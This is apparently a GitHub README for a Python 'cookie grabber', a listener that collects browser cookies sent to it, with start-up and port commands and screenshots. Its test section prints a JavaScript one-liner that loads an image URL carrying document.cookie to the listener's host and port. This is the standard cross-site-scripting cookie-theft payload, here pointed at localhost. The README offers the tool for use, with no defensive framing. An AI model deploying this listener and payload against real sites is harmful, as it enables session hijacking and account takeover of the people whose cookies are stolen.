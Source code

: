 # Python_CookieGrabber
A cookie grabber for webrequests

## Usage

A simple cookie grabber with some formatting.

Start up
```
python3 cookieGrabber.py
```

Set port
```
python3 cookieGrabber.py -p 9999
```

## Images

![image](https://user-images.githubusercontent.com/5285547/133122623-1c9459a8-73a6-418b-acbd-8ee27490be79.png)

Port selection

![image](https://user-images.githubusercontent.com/5285547/133122763-5141ef64-e95f-4027-84e0-750f50700e46.png)

## Dev tools test (F12 firefox, chrome)

![image](https://user-images.githubusercontent.com/5285547/133122858-4189195b-b8ae-4793-a917-9c14c8e928c8.png)

```
(function(){var i = new Image;i.src='http://127.0.0.1:9988/?c'+document.cookie}())
```
